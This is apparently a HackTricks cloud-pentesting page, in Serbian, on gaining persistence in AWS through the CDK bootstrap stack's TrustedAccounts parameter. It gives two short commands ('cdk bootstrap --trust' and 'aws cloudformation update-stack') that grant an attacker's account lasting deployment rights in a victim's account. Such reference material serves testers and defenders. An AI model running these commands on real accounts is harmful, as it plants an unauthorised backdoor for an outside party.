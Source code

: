 # AWS - Cloudformation Persistence

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

Za više informacija, pristupite:

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

AWS CDK implementira CFN stack nazvan `CDKToolkit`. Ovaj stack podržava parametar `TrustedAccounts` koji omogućava spoljnim nalozima da implementiraju CDK projekte u nalog žrtve. Napadač može da iskoristi ovo da sebi obezbedi neograničen pristup nalogu žrtve, bilo korišćenjem AWS cli za ponovnu implementaciju stack-a sa parametrima, ili AWS CDK cli.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../banners/hacktricks-training.md}}
